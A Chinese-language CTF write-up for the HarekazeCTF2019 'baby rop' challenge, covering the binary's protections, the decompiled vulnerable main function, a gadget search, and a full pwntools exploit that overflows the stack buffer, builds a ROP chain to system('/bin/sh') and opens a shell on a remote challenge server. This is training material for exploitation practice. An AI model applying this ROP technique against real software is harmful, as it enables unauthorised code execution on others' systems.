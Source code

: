 ```yaml
---
author: 
  name: Zephyr
title: HarekazeCTF2019 baby rop
date: 2022-3-22 10:20:03
permalink: /pages/2e1547494524d187
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# HarekazeCTF2019 baby rop

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/HarekazeCTF2019_baby_rop/babyrop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [rsp+0h] [rbp-10h]

  system("echo -n \"What's your name? \"");
  __isoc99_scanf("%s", &v4);
  printf("Welcome to the Pwn World, %s!\n", &v4);
  return 0;
}
```

Gadget

```shell
ROPgadget --binary babyrop --string "/bin/sh\x00"
Strings information
============================================================
0x0000000000601048 : /bin/sh
```

## 思路分析

1. 目前信息：
   - 明显的栈溢出漏洞
   - `plt`表内有`system`
   - 存在`/bin/sh`字符串
   - No PIE
   - NX 保护
1. 思路：
   - 可栈溢出，有`system`，有`/bin/sh`，构造`rop`链布好栈帧输入即可

## exp

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/HarekazeCTF2019_baby_rop/babyrop'
io = remote('node4.buuoj.cn', 26190)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 0x10+8
system_addr = elf.plt['system']
bin_sh = 0x601048
pop_rdi_ret = 0x400683
payload = flat(['a'*padding, pop_rdi_ret, bin_sh, system_addr])
io.recv()
io.sendline(payload)
io.interactive()
```